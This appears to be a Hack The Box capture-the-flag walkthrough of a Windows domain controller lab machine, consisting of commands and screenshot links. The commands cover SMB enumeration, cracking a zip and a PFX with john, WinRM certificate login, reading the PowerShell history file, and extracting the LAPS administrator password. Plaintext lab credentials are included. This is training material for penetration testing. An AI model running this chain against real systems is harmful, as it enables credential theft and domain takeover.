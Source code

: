 ```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
upload AdmPwd.PS
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
evil-winrm -i 10.10.11.152 -S -u administrator -p 'A+@PQh;Cj0+{Cb2oBJBybYry'
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.152
```
![image](https://github.com/regarmulia/HTB/assets/33616880/de39839c-7d0f-4e06-bce0-405c4fd5e9df)


```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38dc3fff-aa4b-43ea-9708-623342572d32)


```
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2fd7c3da-dd7e-4873-a74d-5cb138de68ca)

![image](https://github.com/regarmulia/HTB/assets/33616880/25e93ff2-37af-438d-8e31-0bbac933bdfb)


```
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ade0c972-88c1-45ae-b2fe-482b7f8a930c)


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/07ffcc57-6bbb-4567-ad1e-38879504d66f)


```
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/dbc9049b-bc5b-4ae5-bf13-61229ef18444)


```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6ebf0ae-9a32-4cdb-9a80-fd852960949d)


```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
upload AdmPwd.PS
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0eeb2fa9-09a1-4cc8-9c21-69219178b416)


```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/27e1d01a-442f-4a88-89f8-08d0b427425b)


```
evil-winrm -i 10.10.11.152 -S -u administrator -p 'A+@PQh;Cj0+{Cb2oBJBybYry'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1b1a7314-434a-40e8-bca7-a9477253776c)

